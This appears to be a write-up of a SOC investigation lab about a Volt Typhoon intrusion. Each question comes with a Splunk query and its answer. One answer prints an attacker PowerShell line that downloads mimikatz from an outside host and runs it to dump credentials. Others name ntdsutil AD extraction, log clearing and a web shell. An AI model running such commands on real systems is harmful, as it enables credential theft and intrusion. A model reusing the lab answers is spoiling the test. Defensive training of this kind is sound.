# Volt Typhoon

## Scenario

**The SOC has detected suspicious activity indicative of an advanced persistent threat (APT) group known as Volt Typhoon, notorious for targeting high-value organizations. Assume the role of a security analyst and investigate the intrusion by retracing the attacker's steps.**

---

## Initial Access

**Volt Typhoon often gains initial access to target networks by exploiting vulnerabilities in enterprise software. In recent incidents, Volt Typhoon has been observed leveraging vulnerabilities in Zoho ManageEngine ADSelfService Plus, a popular self-service password management solution used by organizations.**

### 1. At what time (ISO 8601 format) was Dean's password changed and their account taken over by the attacker?

**SPL Query:**
```
* username="Dean-admin" service_name=ADSelfServicePlus password
```

Reviewing the results, we find an event indicating a password change.



**Answer:**  
```
2024-03-24T11:10:22
```

---

### 2. What is the name of the new administrator account that was created?

**SPL Query:**
```
* username="*"| top limit=20 username
```



**Answer:**  
```
voltyp-admin
```

---

## Execution

### 3. What command does the attacker run to find information about local drives on server01 & server02?

**SPL Query:**
```
* username="*" wmic server01 server02
```



**Answer:**  
```
wmic /node:server01, server02 logicaldisk get caption, filesystem, freespace, size, volumename
```

---

### 4. What password does the attacker set on the archive after compressing the AD database?

**SPL Query:**
```
* username="*" ntdsutil
```



After finding the file `temp.dit` was created, search for it:

**SPL Query:**
```
* username="*" temp.dit
```



**Answer:**  
```
5ag0nm@5t3r 
```

---

## Persistence

**Persistence Path:**  
```
C:\Windows\Temp\
```

---

## Defense Evasion

**Volt Typhoon utilizes advanced defense evasion techniques to significantly reduce the risk of detection. These methods encompass regular file purging, eliminating logs, and conducting thorough reconnaissance of their operational environment.**

### 6. What PowerShell cmdlet does the attacker use to remove the “Most Recently Used” record?

**SPL Query:**
```
index=*
| chart count by CommandLine
| sort count
| reverse
```



**Answer:**  
```
Remove-ItemProperty
```

---

### 7. What is the file name (with extension) created by the attackers after renaming and changing the extension of the archive?

**Relevant Commands Searched:**
```powershell
# Powershell
    Move-Item
    Rename-Item
    Get-ChildItem
# CMD
    ren
```

**Answer:**  
```
cl64.gif
```

---

### 8. Under what regedit path does the attacker check for evidence of a virtualized environment?

Searched for the keyword `virtual`.



---

## Credential Access

**Volt Typhoon often combs through target networks to uncover and extract credentials from a range of programs. Additionally, they are known to access hashed credentials directly from system memory.**

### 9. What three pieces of software do they investigate using reg query?  
_Answer Format: Alphabetical order separated by a comma and space._

**SPL Query:**
```
index=*
|search reg
```



**Answer:**  
```
OpenSSH, putty, realvnc
```

---

### 10. What is the full decoded command the attacker uses to download and run mimikatz?

**Answer:**  
```
Invoke-WebRequest -Uri "http://voltyp.com/3/tlz/mimikatz.exe" -OutFile "C:\Temp\db2\mimikatz.exe"; Start-Process -FilePath "C:\Temp\db2\mimikatz.exe" -ArgumentList @("sekurlsa::minidump lsass.dmp", "exit") -NoNewWindow -Wait
```

---

## Discovery & Lateral Movement

Volt Typhoon uses enumeration techniques to gather additional information about network architecture, logging mechanisms, successful logins, and software configurations, enhancing their understanding of the target environment for strategic purposes.

The APT has been observed moving previously created web shells to different servers as part of their lateral movement strategy. This technique facilitates their ability to traverse through networks and maintain access across multiple systems.

### 11. What event IDs does the attacker search for using wevtutil?  
_Answer Format: Increasing order separated by a space._

**SPL Query:**
```
index=* 
|search wevtutil
```



**Answer:**  
```
4624 4625 4769
```

---

### 12. What is the name of the new web shell that was created on server-02?

**SPL Query:**
```
index=* CommandLine=Copy-Item
```



**Answer:**  
```
AuditReport.jspx
```

---

## Collection

**During the collection phase, Volt Typhoon extracts various types of data, such as local web browser information and valuable assets discovered within the target environment.**

### 13. What three files does Volt Typhoon make copies of using PowerShell?  
_Answer Format: Increasing order separated by a space._

**SPL Query:**  
(Same filter as before)

**Answer:**  
```
2022.csv 2023.csv 2024.csv
```

---

## C2 & Cleanup

Volt Typhoon utilizes publicly available tools as well as compromised devices to establish discreet command and control (C2) channels.

To cover their tracks, the APT has been observed deleting event logs and selectively removing other traces and artifacts of their malicious activities.

### 14. What connect address and port does the attacker use when setting up the proxy with netsh?  
_Answer Format: IP Port_

**SPL Query:**  
(Search for `netsh`)



**Answer:**  
```
10.2.30.1 8443
```

---

### 15. What are the four types of event logs the attacker clears on the compromised system?

**SPL Query:**  
(Search for `wevtutil`)



**Answer:**  
```
Application Security Setup System
```

---

_Finally, the challenge is complete._